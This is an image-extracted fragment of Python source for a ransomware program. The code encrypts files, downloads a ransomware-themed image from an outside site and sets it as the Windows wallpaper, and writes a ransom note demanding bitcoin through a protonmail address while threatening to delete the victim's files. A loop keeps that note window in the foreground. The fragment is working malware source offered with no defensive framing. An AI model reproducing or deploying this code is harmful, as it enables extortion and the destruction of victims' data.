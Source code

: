 ```python
                    self.crypt_file(file_path)
                else:
                    self.crypt_file(file_path, encrypted=True)


    @staticmethod
    def what_is_bitcion():
        url = 'https://bitcoin.org'
        # Open browser to the https://bitcoin.org so they know what bitcoin is
        webbrowser.open(url)


    def change_desktop_background(self):
        imageUrl = 'https://images.idgesg.net/images/article/2018/02/ransomware_hacking_thinkstock_903183876-100749983-large.jpg'
        # Go to specif url and download+save image using absolute path
        path = f'{self.sysRoot}Desktop/background.jpg'
        urllib.request.urlretrieve(imageUrl, path)
        SPI_SETDESKWALLPAPER = 20
        # Access windows dlls for funcionality eg, changing dekstop wallpaper
        ctypes.windll.user32.SystemParametersInfoW(SPI_SETDESKWALLPAPER, 0, path, 0)


    def ransom_note(self):
        date = datetime.date.today().strftime('%d-%B-Y')
        with open('RANSOM_NOTE.txt', 'w') as f:
            f.write(f'''
The hard disks of your computer have been encrypted with an Military grade encryption algorithm.
There is no way to restore your data without a special key.
Only we can decrypt your files!
To purchase your key and restore your data, please follow these three easy steps:
1. Email the file called EMAIL_ME.txt at {self.sysRoot}Desktop/EMAIL_ME.txt to GetYourFilesBack@protonmail.com
2. You will receive your personal BTC address for payment.
   Once payment has been completed, send another email to GetYourFilesBack@protonmail.com stating "PAID".
   We will check to see if payment has been paid.
3. You will receive a text file with your KEY that will unlock all your files.
   IMPORTANT: To decrypt your files, place text file on desktop and wait. Shortly after it will begin to decrypt all files.
WARNING:
Do NOT attempt to decrypt your files with any software as it is obsolete and will not work, and may cost you more to unlock your files.
Do NOT change file names, mess with the files, or run decryption software as it will cost you more to unlock your files-
-and there is a high chance you will lose your files forever.
Do NOT send "PAID" button without paying, price WILL go up for disobedience.
Do NOT think that we wont delete your files altogether and throw away the key if you refuse to pay. WE WILL.
''')


    def show_ransom_note(self):
        # Open the ransom note
        ransom = subprocess.Popen(['notepad.exe', 'RANSOM_NOTE.txt'])
        count = 0 # Debugging/Testing
        while True:
            time.sleep(0.1)
            top_window = win32gui.GetWindowText(win32gui.GetForegroundWindow())
            if top_window == 'RANSOM_NOTE - Notepad':
                print('Ransom note is the top window - do nothing') # Debugging/Testing
                pass
            else:
```